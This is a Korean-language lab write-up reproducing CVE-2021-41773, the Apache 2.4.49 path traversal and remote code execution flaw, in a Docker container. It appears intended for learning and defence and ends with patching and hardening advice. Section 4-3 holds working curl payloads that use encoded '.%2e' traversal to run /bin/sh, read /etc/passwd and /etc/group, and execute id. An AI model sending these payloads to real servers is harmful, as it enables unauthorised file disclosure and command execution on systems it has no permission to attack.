




# CVE-2021-41773 (Apache HTTP Server Path Traversal / RCE)

## 1. 취약점 요약

- **CVE ID**: CVE-2021-41773
- **영향 버전**: Apache HTTP Server 2.4.49
- **취약점 유형**: Path Traversal → (mod_cgi 활성화 시) Remote Code Execution
- **원인**: Apache 2.4.49에서 도입된 경로 정규화 로직 변경으로 인해 `.%2e`와 같은 인코딩된 경로 순회 문자열이 정상적으로 필터링되지 않음.
    
    이로 인해 문서 루트 밖의 파일에 접근하거나, mod_cgi가 활성화되어 있고 해당 경로에 대한 실행 권한이 부여된 경우 임의 명령을 실행할 수 있음.
    

## 2. 환경 구성

Docker Compose 기반 단일 컨테이너로 구성. httpd:2.4.49 베이스 이미지에서 직접 빌드

### 디렉터리 구조

```
CVE-2021-41773/
├── Dockerfile
├── docker-compose.yml
├── docroot/
│   └── cgi-bin/
│       └── test.sh
└── screenshots/
    ├── 01-build.png
    ├── 02-passwd.png
    ├── 03-group.png
    └── 04-rce-id.png
```

## 3. 취약 조건

1. Apache HTTP Server 버전 = 2.4.49
2. mod_cgi 모듈 활성화
3. 루트 디렉터리(<Directory />)에 대한 접근 제어:  `Require all granted`
4. cgi-bin 디렉터리에 Options +ExecCGI 및 실행 가능한 스크립트가 존재

## 4. 재현 절차

### 4-1. 환경 빌드 및 기동

```bash
docker compose up -d --build
```

### 4-2. 설정 확인

```bash
docker exec -it cve-2021-41773 cat /usr/local/apache2/conf/httpd.conf | grep -A 5 '<Directory />'
```

### 4-3. PoC 실행

```bash
# 1) /etc/passwd 읽기
curl -X POST -d 'echo; cat /etc/passwd' 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'

# 2) /etc/group 읽기
curl -X POST -d 'echo; cat /etc/group' 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'

# 3) 명령 실행 확인 (id)
curl -v -X POST -d 'echo; id' 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

## 5. PoC 코드 설명

- 요청 경로 `/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh`는 인코딩된 `../../../../bin/sh`로 디코딩되어 cgi-bin 밖의 /bin/sh를 CGI 스크립트처럼 실행시킴
- POST 바디로 전달한 `echo; cat /etc/passwd` 등의 문자열이 `/bin/sh -c`처럼 해석되어 쉘 명령으로 실행됨
- `echo;`는 CGI 응답에서 필요한 헤더 처리를 우회하기 위한 트릭

## 6. 실행 결과

- Docker Compose 빌드 및 컨테이너 기동 성공



- `/etc/passwd` 파일 내용 노출 확인



- `/etc/group` 파일 내용 노출 확인



- `id` 명령 실행 결과 `uid=1(daemon) gid=1(daemon) groups=1(daemon)` 확인 → 단순 파일 읽기를 넘어 **임의 명령 실행(RCE)** 까지 재현



- 응답 헤더: `Server: Apache/2.4.49 (Unix)`, `HTTP/1.1 200 OK`

## 7. 대응 방안

1. **버전 업그레이드**: Apache HTTP Server 2.4.51 이상으로 업그레이드 (CVE-2021-41773, CVE-2021-42013 모두 패치됨)
2. **접근 제어 원복**: <Directory />에 대해 Require all denied 유지, 필요한 경로만 명시적으로 허용
3. 불필요한 CGI 비활성화: mod_cgi/mod_cgid가 실제로 필요하지 않다면 비활성화
4. 최소 권한 원칙: cgi-bin 디렉터리 등 실행 권한이 부여된 경로를 최소화하고 정기적으로 점검
5. WAF/IPS 룰 적용: %2e%2e 등 인코딩된 경로 순회 패턴을 탐지하는 룰 적용
6. **정기적인 패치 관리**: CVE 공개 직후 신속한 패치 적용 프로세스 마련